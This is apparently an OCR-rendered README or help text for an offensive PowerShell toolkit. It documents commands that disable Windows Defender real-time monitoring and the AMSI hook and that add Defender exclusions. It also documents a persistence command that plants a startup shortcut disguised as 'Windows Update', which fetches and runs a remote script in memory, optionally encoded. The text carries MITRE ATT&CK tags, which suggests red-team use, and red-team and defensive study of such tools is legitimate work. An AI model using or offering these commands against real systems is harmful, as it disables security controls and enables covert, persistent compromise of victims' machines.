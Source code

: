  |----------------------------------------------------------------------|
 | -DisableRTM                                                          |
 |----------------------------------------------------------------------|

   [*] Description: Disables Windows Defender Real-Time Monitoring.
       (Requires Elevation)

       Note: Will pop an alert to the end user.

   [*] Usage: Invoke-DefenderTools -DisableRtm

   [*] Mitre ATT&CK Ref: T1211 (Exploitation for Defense Evasion)
   [*] Mitre ATT&CK Ref: T1089 (Disabling Security Tools)

 |----------------------------------------------------------------------|
 | -DisableAMSI                                                         |
 |----------------------------------------------------------------------|

   [*] Description: Disables PowerShell's AMSI Hook

   [*] Usage: Invoke-DefenderTools -DisableAmsi

   [*] Mitre ATT&CK Ref: T1211 (Exploitation for Defense Evasion)
   [*] Mitre ATT&CK Ref: T1089 (Disabling Security Tools)

 \----------------------------------------------------------------------/
 
```

```PS> Invoke-DefenderTools -List```

```
PS> Invoke-DefenderTools -List

 Invoke-DefenderTools Command List:
 ----------------------------------
 Invoke-DefenderTools -GetExcludes
 Invoke-DefenderTools -AddExclude [-Path] path
 Invoke-DefenderTools -DisableRtm
 Invoke-DefenderTools -DisableAMSI
 ```
 
 ### Usage Example (Invoke-Persistence -StartupLnk)
 
 ```PS> Invoke-Persistence -Help```
 
 ```
 PS> Invoke-Persistence -Help

 ### Invoke-Persistence HELP ###
 -------------------------------
 Available Invoke-Persistence Commands:
 --------------------------------------
 |-----------------------------------------------------------------------------|
 | -StartupLnk [-Clean] [-PsUrl] File_url [-Encoded]                           |
 |-----------------------------------------------------------------------------|

   [*] Description: Drops a .LNK file in the current user's startup directory
       named "Windows Update" that executes a remotely hosted PowerShell script
       in memory (Net.WebClient DownloadString). If the "-Encoded" parameter is
       appended to the command line, the downloadstring will be encoded and will
       use PowerShell's -EncodedCommand function to execute.
